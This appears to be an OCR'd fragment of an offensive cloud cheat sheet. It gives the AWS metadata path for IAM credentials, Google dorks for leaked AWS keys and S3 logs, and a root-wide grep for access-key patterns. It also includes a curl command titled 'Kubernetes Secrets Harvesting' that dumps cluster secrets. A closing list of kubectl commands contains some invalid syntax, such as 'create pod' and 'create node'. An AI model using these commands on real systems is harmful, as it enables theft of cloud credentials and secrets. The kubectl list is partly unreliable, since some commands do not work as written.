 ```
/latest/meta-data/iam/security-credentials
```

Google Dorking for AWS Access Keys

```
inurl:pastebin "AWS_ACCESS_KEY"
```

Recursively searching for AWS Access Keys on *Nix containers

```bash
$ grep -ER "AKIA[A-Z0-9]{16}|ASIA[A-Z0-9]{16}" /
```

S3 Log Google Dorking

```
s3 site:amazonaws.com filetype:log
```

## Kubernetes Secrets Harvesting:

```bash
$ curl -k -v -H “Authorization: Bearer <jwt_token>” -H “Content-Type: application/json” https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r ‘.items[].data’
```

## Kubernetes Ninja Commands:

```bash
# List all pods in the current namespace.
kubectl get pods

# Get detailed information about a pod.
kubectl describe pod <pod-name>

# Create a new pod.
kubectl create pod <pod-name> 

# List all nodes in the cluster.
kubectl get nodes 

# Get detailed information about a node.
kubectl describe node <node-name> 

# Create a new node
kubectl create node <node-name> 

# List all services in the cluster.
kubectl get services 

# Get detailed information about a service.
kubectl describe service <service-name> 

# Create a new service.
kubectl create service <service-name> 

# List all secrets in the cluster.
kubectl get secrets 

# Get detailed information about a secret.
kubectl describe secret <secret-name> 

# Create a new secret.
kubectl create secret <secret-name> 
```
